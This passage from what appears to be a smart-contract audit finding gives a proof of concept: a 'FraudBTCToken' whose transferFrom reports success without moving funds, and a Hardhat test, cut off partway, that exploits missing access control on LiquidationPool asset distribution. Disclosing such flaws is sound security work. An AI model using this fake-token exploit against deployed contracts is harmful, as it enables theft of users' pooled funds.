 Create a new folder name it `attackToken` inside `contracts` and create the solidity file: `FraudBTCToken.sol` with the following contract
```cpp
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract FraudBTCToken is ERC20 {
    uint8 private dec;

    constructor(string memory _name, string memory _symbol, uint8 _decimals) ERC20(_name, _symbol) {
        dec = _decimals;
    }

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        return true;
    }

    function decimals() public view override returns (uint8) {
        return dec;
    }
}
```

Add the test in the file: `test/liquidationPool.js`

Run both the tests by:
```cpp
yarn hardhat test test/liquidationPool --grep "Missing Access Control on Distribute Assets"
```

```js
describe("Missing Access Control on Distribute Assets", () => {
  it("Missing access control on Distribute Assets causes reward manipulation", async () => {
    // User have both euros and tst
    const initTokenAmount = ethers.utils.parseEther("10000")

    await TST.mint(user1.address, initTokenAmount)
    await EUROs.mint(user1.address, initTokenAmount)

    await TST.connect(user1).approve(LiquidationPool.address, initTokenAmount)
    await EUROs.connect(user1).approve(LiquidationPool.address, initTokenAmount)

    await LiquidationPool.connect(user1).increasePosition(initTokenAmount, initTokenAmount)

    fastForward(DAY)

    const EthUsd = await (await ethers.getContractFactory('ChainlinkMock')).deploy('ETH/USD'); // $1900
    await EthUsd.setPrice("160000000000");


    const initLiquidationPoolEthBalance = await ethers.provider.getBalance(LiquidationPool.address)

    const nativeToken = {
      token: {
        symbol: ethers.utils.formatBytes32String('ETH'),
        addr: "0x0000000000000000000000000000000000000000",
        dec: "18",
```